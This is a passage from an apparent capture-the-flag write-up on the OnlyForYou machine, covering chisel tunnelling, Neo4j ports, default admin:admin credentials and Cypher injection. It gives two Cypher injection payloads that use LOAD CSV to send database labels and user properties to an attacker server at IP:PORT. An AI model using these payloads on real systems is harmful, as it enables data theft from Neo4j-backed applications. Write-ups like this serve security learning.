 I use chisel since that is what was recommended to me.[^fn:5]



-  Neo4j ports

    By looking up some of the ports, we find that it is neo4j (you might already know that from the passwd file).
    This table is from the Documentation for neo4j.[^fn:6]

    | Name                         | Default port | Related configuration setting                                                                                                                                                                                  |
    |------------------------------|--------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
    | Backup                       | `6362`       | [server.backup.listen_address](https://neo4j.com/docs/operations-manual/current/reference/configuration-settings/#config_server.backup.listen_address)                                                         |
    | HTTP                         | `7474`       | [server.http.listen_address](https://neo4j.com/docs/operations-manual/current/reference/configuration-settings/#config_server.http.listen_address)                                                             |
    | HTTPS                        | `7473`       | [server.https.listen_address](https://neo4j.com/docs/operations-manual/current/reference/configuration-settings/#config_server.https.listen_address)                                                           |
    | Bolt                         | `7687`       | [server.bolt.listen_address](https://neo4j.com/docs/operations-manual/current/reference/configuration-settings/#config_server.bolt.listen_address)                                                             |
    | Cluster discovery management | `5000`       | [server.discovery.listen_address](https://neo4j.com/docs/operations-manual/current/reference/configuration-settings/#config_server.discovery.listen_address)                                                   |
    | Cluster transaction          | `6000`       | [server.cluster.listen_address](https://neo4j.com/docs/operations-manual/current/reference/configuration-settings/#config_server.cluster.listen_address)                                                       |
    | Cluster RAFT                 | `7000`       | [server.cluster.raft.listen_address](https://neo4j.com/docs/operations-manual/current/reference/configuration-settings/#config_server.cluster.raft.listen_address)                                             |
    | Cluster routing connector    | `7688`       | [server.routing.listen_address](https://neo4j.com/docs/operations-manual/current/reference/configuration-settings/#config_server.routing.listen_address)                                                       |
    | Graphite monitoring          | `2003`       | [server.metrics.graphite.server](https://neo4j.com/docs/operations-manual/current/reference/configuration-settings/#config_server.metrics.graphite.server)                                                     |
    | Prometheus monitoring        | `2004`       | [server.metrics.prometheus.endpoint](https://neo4j.com/docs/operations-manual/current/reference/configuration-settings/#config_server.metrics.prometheus.endpoint)                                             |
    | JMX monitoring               | `3637`       | [server.jvm.additional=-Dcom.sun.management.jmxremote.port=3637](https://neo4j.com/docs/operations-manual/current/reference/configuration-settings/#config_server.jvm.additional)                              |
    | Remote debugging             | `5005`       | [server.jvm.additional=-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=\*:5005](https://neo4j.com/docs/operations-manual/current/reference/configuration-settings/#config_server.jvm.additional) |



-  GOG's

    Gogs and Gitea listen on port 3000. There is nothing interesting about that yet.


### onlyforyou {#onlyforyou}

There is a simple web app and you can find the default credentials are admin:admin. Navigating around, we can see a search page, and based on the fact we know Neo4j is running, Cypher injection is the correct route.
I came to realize this when fuzzing the search page for [SQL Injection]({{< relref "../../../../../pages/hacking/20221213185522-sql_injection.md" >}}).
Cypher injections involve a form of SSRF, which is how you can get the data in this case. You will need to have an HTTP server running where you can see the requests.&nbsp;[^fn:4]
Here are the Cypher injection queries you can use to retrieve data:

-   Get the labels: `'OR 1=1 WITH 1 as a  CALL db.labels() yield label LOAD CSV FROM 'http://IP:PORT/?label='+label as l RETURN 0 as _0 //`
-   Get properties: `'OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://IP:PORT/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //`


[^fn:1]: <https://www.youtube.com/watch?v=AJc53DUdt1M&t=720s>
[^fn:2]: <https://docs.python.org/3/library/os.path.html#os.path.join>
[^fn:3]: <https://stackoverflow.com/questions/3172470/actual-meaning-of-shell-true-in-subprocess>
[^fn:4]: My advice is to have a directory for the tools then use `python -m http.server` or pwncat to download it
[^fn:5]: <https://github.com/jpillora/chisel>
[^fn:6]: <https://neo4j.com/docs/operations-manual/current/configuration/ports/>